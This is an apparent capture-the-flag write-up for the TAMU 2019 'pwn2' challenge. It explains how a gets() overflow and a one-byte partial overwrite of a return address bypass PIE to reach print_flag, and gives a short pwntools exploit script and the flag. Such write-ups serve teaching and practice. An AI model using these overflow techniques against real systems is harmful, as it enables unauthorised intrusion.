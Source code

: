 ```yaml
---
layout: post
title: Tamu 2019 pwn2
date: 2025-07-16 00:22:03 +0300
categories: Nightmare-series partial-overwrite
tags: nightmare buffer-overflow i386 partial-overwrite 
---
```


## Information
- Category: Pwn

## Description
> None

## Write-up

When we run the program, it takes user input. 
If we inspect it using Ghidra or IDA, we can see it uses `gets()`, which is dangerous due to its lack of bounds checking.

 However, our goal is to execute the `print_flag` function, and a simple buffer overflow to overwrite the return address won't work directly because the binary has **ASLR** and **PIE** enabled.

Instead, we can take advantage of how the `select_func` function works. 

It takes our input, copies it into a local variable, and is then called from `main`. This means the return address inside `select_func` will point back to `main` — specifically, to the instruction after the call to `select_func`. 

If we can partially overwrite the return address inside `select_func`, we can redirect execution to `print_flag`. 

Since PIE only randomizes the higher bits, and the **low byte of the return address is fixed** (`0xd8`), a **partial overwrite** is enough to hijack control flow. 
We know:
 - The offset to the return address inside `select_func` is `0x1e` 
 - The fixed **low byte** of `print_flag`'s address is `0xd8` 

 So, by sending input that overflows the buffer and **overwrites just the least-significant byte** of the return address, we can make the function return into `print_flag`, bypassing ASLR and PIE.

## Exploit
```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwn2_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()

    payload = b"A"*0x1e + b"\xd8"
    r.send(payload)
    r.interactive()


if __name__ == "__main__":
    main()
```

## Flag
> Flag:``` flag{g0ttem_b0yz}```
